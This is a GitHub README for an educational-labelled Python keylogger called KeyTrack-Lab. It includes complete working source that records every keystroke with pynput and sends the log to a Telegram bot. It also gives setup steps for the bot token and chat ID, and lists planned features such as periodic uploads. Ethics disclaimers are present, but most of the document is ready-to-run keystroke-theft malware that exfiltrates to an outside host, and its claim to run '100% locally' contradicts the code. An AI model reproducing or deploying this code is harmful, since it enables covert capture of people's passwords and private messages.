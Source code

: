 # KeyTrack-Lab 🔐

A simple Python keylogger designed for cybersecurity education and personal learning. This project captures keystrokes locally and sends them to your Telegram account via a bot. Ideal for practicing ethical hacking, input monitoring, and bot-based alerting.

> ⚠️ This tool is for **educational use only**. Never deploy keyloggers without **explicit permission**. Misuse may be illegal.

---

## 🛠 Features

- Logs all keystrokes in real time
- Sends keystroke logs to Telegram when stopped
- Simple, readable Python code
- Runs 100% locally

---

## 📦 Requirements

- Python 3.x
- Libraries:
  ```bash
  pip install pynput requests
---

🤖 Setup Instructions
1. Create a Telegram Bot

    Search for @BotFather on Telegram

    Send /newbot and follow the prompts

    Copy your Bot Token

2. Get Your Chat ID

    Start a chat with your bot by sending it any message (e.g., "Hello")

    Visit the following in your browser:

    https://api.telegram.org/bot<YOUR_BOT_TOKEN>/getUpdates

    Look for "chat": {"id": YOUR_CHAT_ID} in the JSON response

🧪 Usage
1. Save the script below as keylogger_telegram.py:

import requests
from pynput import keyboard

BOT_TOKEN = "YOUR_BOT_TOKEN_HERE"
CHAT_ID = "YOUR_CHAT_ID_HERE"

log = ""

def send_telegram_message(message):
    url = f"https://api.telegram.org/bot{BOT_TOKEN}/sendMessage"
    payload = {
        "chat_id": CHAT_ID,
        "text": message
    }
    requests.post(url, data=payload)

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        if key == keyboard.Key.space:
            log += " "
        else:
            log += f" [{key.name}] "

def on_release(key):
    if key == keyboard.Key.esc:
        send_telegram_message("Keylogger stopped. Logged keys:")
        send_telegram_message(log)
        print("Logging stopped and sent to Telegram.")
        return False

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

2. Run the script:

python keylogger_telegram.py

3. To stop logging:

    Press the Esc key

    The full log will be sent to your Telegram chat

🔒 Ethics & Legal Disclaimer

This tool is meant for local use, educational purposes, and authorized testing only. Unauthorized use of keyloggers is illegal in many jurisdictions. Always ensure you have explicit consent before monitoring any input.
🚀 Future Ideas

    Add timestamped logging

    Periodic updates to Telegram

    Save logs to local file

    Extend to mouse input

📚 License

MIT License — feel free to use and adapt with credit.
👨‍💻 Author

[Zain M]
Learning Lab Projects – Ethical Hacking and Automation
